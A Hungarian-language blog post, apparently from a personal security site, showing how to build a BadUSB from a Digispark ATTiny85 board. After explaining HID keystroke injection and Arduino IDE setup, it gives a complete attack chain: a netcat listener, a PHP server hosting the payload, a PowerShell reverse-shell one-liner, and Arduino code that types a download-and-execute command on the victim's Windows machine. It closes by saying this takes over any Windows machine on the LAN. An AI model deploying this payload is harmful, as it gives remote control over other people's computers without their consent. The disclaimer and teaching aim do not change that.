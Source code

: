 +++
title= "Csak egy ártatlan pendrive"
date= 2024-07-23T19:22:46+02:00
draft= false
summary = "Filmekben lehet látni olyat, hogy a titkosügynökök a számítógépbe dugnak egy pendrive-ot és utána történik a varázslat. Ez is valami ehhez hasonló."
description = "Piacon már régota kint van a USB Rubber Ducky, ami lényegében egy pendrive-nak álcázott mikrokontroller. Közönséges érdelődők számára kicsit elérhetetlen áron van szerintem, mivel jelenleg $80 egy darab. Ezért szerettem volna kipróbálni egy olcsóbb de minőségben közelítő alternatívát."
tags = ['Digispark', 'badusb', 'infosec']
+++

Bedugod, eltelik 5 másodperc, megtörténik a varázs és kihúzod. Nem, ez most nem az forgatókönyv amire gondolsz, ez történik a USB Rubber Ducky-hez hasonló mikrokontrollerek használatakor. Lényegében a számítógép ilyenkor ezeket az eszközöket HID-ként, azaz Human Interface Device-ként kezeli, mint például egy billentyűzetet is. Ez azt engedi meg, hogy lényegében az USB bedugása után elindul az arra feltöltött program, és elkezdi gépelni ezerrel azt, mindeközben az operációs rendszer teljes engedelmességet tanusít. Első kérdés az lenne, hogy ezt miért teheti meg, miért nem kér a számítógép jogosultságot? Billentyűzetben is megbízik a számítógép, mivel ember ül mögötte nem pedig egy zsarolóprogram vagy bármi ilyesmi, és hasonlanó viszonyúl minden más HID-hez is, beleértve a "badUSB"-t is. Ezek a kis eszközök viszont sokkal gyorsabban tudnak gépelni mint egy ember, ezért a lehetőségeknek csak a kreativitás szab határt. Azt nem szabad elfelejteni, hogy talán azért nem jelent ez akkora biztonsági kockázatot, mint ahogyan én most itt felvezettem, mert egy nagyon fontos feltételnek teljesülnie kell a müködéséhez: fizikai jelenlét. Ez nagy kihívást jelenthet a legtöbb támadó fél számára, de az esély rá nem 0 tehát számolni kell vele. Olyanra is volt már példa, hogy célzottan például egy rendőrség vagy irodaház parkolójában szórtak szét ilyen kártékony USB-ket és az áldozatok, emberlétükre kiváncsiságból bedugták a szervezeti, céges számítógépükbe és a baj meg is történt még mielőtt észrevették volna.

Persze nem csak csúnya dolgokra lehet ezt használni. Ha például rendszergazdák vagyunk akkor akár a repetatív feladatokat könnyen felcserélhetjük egy bedugás és kihúzás mozdulatra ez segítségével.

## Felelősség

A tudás és a tapsztalat felelősséggel, és azon kötelességgel jár, hogy csak is embertársaink, és környezetünk előnyére, jólétére használhatjuk fel. Semmilyen körülmények között nem élhetünk vissza azzal a hatalommal, amelyet az élet ruházott ránk, amikor voltunk olyan szerencsések, hogy valamire rájöttünk, valamit megtanultunk. Ez különösen igaz a kiberbiztonság témakörében és még máskor is ki fogom ezt hangsúlyozni. Én az itt bemutatott technikákat csakis saját, vagy olyan rendszeren, számítógépen próbálom ki, amelyekhez engedélyt kaptam a tulajdonostól. A célom az a dokumentálás és a tanításnak a szándéka, hogy így egy biztonságosabb internet és informatika születhessen. **Ezáltal szeretném tisztázni, hogy engem semmilyen felelősség nem terhel, hogy TE a saját döntéseid után ezt a tudást mire használod.**

## Digispark ATTiny85

Az alternatívát a Digispark kínálja mely egy ATTiny85 8 bites RISC utasításkészletű mikrokontrollerrel rendelkezik, amely hála a fejlesztőknek, kompatibilis az Arduino IDE fejlesztői környezettel egy kis babrálás után. Az ára rendkívül baráti a $80-hoz képest, magyarországi forgalmazók 1500 Ft környékén árulják, de ha van időd megvárni, akkor lehet hogy Aliexpressről olcsőbban be tudod szerezni. Nem promóció de [itt](https://www.hestore.hu/prod_10036419.html) egy magyar forgalmazónál egy példa.

Itt a cukiság

![Digispark](/digispark.jpg)

### Ardunio IDE setup

Az Arduino IDE-t töltsd le a hivatalos oldalról, vagy csomagkezelőddel (nekem a csomagkezelős változat hiányos volt). Mivel ez nem egy Arduino board ezér külön le kell tölteni hozzá az illesztést. Ezt az alábbi módon tudod megtenni:
1. **File >> Prefrences >> Additional board manager URLs:** ide illeszd be ezt a linket **https://raw.githubusercontent.com/digistump/arduino-boards-index/master/package_digistump_index.json** (más tutoriálokban esetleg más linket látsz az azért van mert azok még a hivatalos oldalról vannak, de sajnos nem olyan rég megszűnt a támogatás onnan, ezért kellett kiásnom a Github repo-ból ugyanarra a fájlra mutató linket).
2. **Board manager >> Itt keresd meg a "Digistump AVR" csomagot** és töltsd le.
3. **Tools >> Itt a "programmer"-nél** válaszd ki a Micronucleus-t, a "board"-nál pedig a Digispark 16,5 Mhz (default)-ot.

Kész is vagy!

### Egyéb

Az eredeti Arduino board-okat az operációs rendszerek automatikusan ellátják a megfelelő jogosultságokkal, hogy programozhatóak legyenek, de könnyen lehet hogy neked a Digisparkot nem ismeri fel hasonlóképpen. Ennek megoldásához Linuxon a továbbiakat kell tenned:

1. Hozz létre egy 49-micronucleus.rules fájlt az itt jelölt helyen: /etc/udev/rules.d/49-micronucleus.rules
2. Másold bele ezeket a sorokat és futtasd a parancsot: 

SUBSYSTEMS=="usb", ATTRS{idVendor}=="16d0", ATTRS{idProduct}=="0753", MODE:="0666"

KERNEL=="ttyACM*", ATTRS{idVendor}=="16d0", ATTRS{idProduct}=="0753", MODE:="0666", ENV{ID_MM_DEVICE_IGNORE}="1"

```sh 
sudo udevadm control --reload-rules
```

## Payload

Most már lehet programozni a kis cukiságot. Én példaképpen egy rendkívül egyszerű reverse shell-t fogok megvalósítani vele, a cél számítógép és a saját gépem között.

> **Reverse shell:** A shell az egy médium, egy interfész a felhasználó és a vas között, ami általában parancssorba gépelt utasításokat lefordít a számítógép nyelvére, hogy aztán a kernel segítségével végrehajtódjanak. A shell az vonatkozhat egy távoli eléréssel kapcsolódott számítógépre is, erre ismert protokolok például az SSH (Secure Shell). Ilyenkor a távoli számítógép "hallgatózik", hogy van-e valaki aki kapcsolatot akar teremteni vele, és ha mi akarunk az otthoni gépünkről elérni az ottani shell-t, akkor mi küldünk kérést neki. A **reverse shell** "reverse" része abból következik, hogy ilyenkor a szerepek feladata megcserélődik, a távoli gép kezdeményezi a csatlakozást. Ezt azért használják támadási vektornak mert a cél számítógép tűzfala a kimenő kéréseket nem akadályozza meg, de a bemenőeket igen. Egy ilyen reverse shell a támadónak esélyt ad, hogy fájlokat szolgáltasson ki, megteremtse a perzisztenciát, hogy ki-be tudjon járkálni kedve szerintde más sérülékenységekkel vegyítve tetszőleges célokat el tud érni vele.

![reverseshell](/reverse_shell.jpg)

Én ezt a legamatőrebb módon teszem meg (ez egy egy valós szituációban nem állna meg a helyét), csupán a koncepciót és a Digispark képességeinek egy töredékét szeretném bemutatni. A lényeg az, hogy lokálisan szolgáltatom egy php szerveren a powershell scriptet, illetve "hallgatózom" a saját gépemen a reverse shell kérést várva. Majd a cél gépen ezt a scriptet töltjük le (az USB segítségével), amit futtatva powershell-ben, csatlakozik a "hallgatózó" számítógépünkhez, így megteremtve a reverse shell-t. Ezt a folyamatot egy valós helyzetben botnettel csinálná a támadó szerintem, hogy a kilétét elfedje.

**Netcat-tel hallgatózom a 4444 porton**

```sh
nc -lp 4444
```

**php szerverrel szolgáltatom azt a könyvtárat, ahol a script van**

```sh
sudo php -S 0.0.0.0:80 -t /directory/to/folder/of/powershellScript/
```

**payload.ps1 fájl tartalma, ez a powershell script amit megosztunk**

Változtasd meg a saját host IP címedre a "HOST_IP_ADDRESS"-t.

```ps
$sm=(New-Object Net.Sockets.TCPClient("HOST_IP_ADDRESS",4444)).GetStream();[byte[]]$bt=0..65535|%{0};while(($i=$sm.Read($bt,0,$bt.Length)) -ne 0){;$d=(New-Object Text.ASCIIEncoding).GetString($bt,0,$i);$st=([text.encoding]::ASCII).GetBytes((iex $d 2>&1));$sm.Write($st,0,$st.Length)}
```
Samratashok érdeme ez a kis script. [Github repo](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcpOneLine.ps1)

Most pedig az amit tényleg az USB fog csinálni. Ugyebár úgy kell gondolkodnunk mintha egy billentyűzetet kellene programozni előre. Ahogy már említettem ehhez az Arduino IDE segítségünkre lesz.

```C
#include "DigiKeyboard.h" // a header ami leegyszerűsíti a parancsok kiírását
void setup() {
}

void loop() {
  DigiKeyboard.sendKeyStroke(0); // az eddigi gépelést "reset"-eljük
  DigiKeyboard.delay(500); // várást kell illetve ajánlott beiktatni, mert a számítógép sokszor nincs felkészülve a hirtelen billentyűnyomásra és esetleg figyelmenkívül hagy egy betűt, ezzel elrontva mindent akár
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT); // Win + R
  DigiKeyboard.delay(500);
  DigiKeyboard.print("powershell \"IEX (New-Object Net.WebClient).DownloadString('https://mywebserver/payload.ps1');\""); // az említett script letöltése és futtatása, itt amúgy nekem itt bejelezett a Windows Defender, ezért kifinomultabb delivery módszer szükséges
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  for (;;) {
    // üres ciklus, hogy ne fusson le újra a script
  }
}
```
Ezt a kódot feltöltjük a Micronucleus-szal a Digispark-ra és már készen is vagyunk. A saját LAN-on most már bármelyik Windows gép fölött átvehetjük az irányítást.
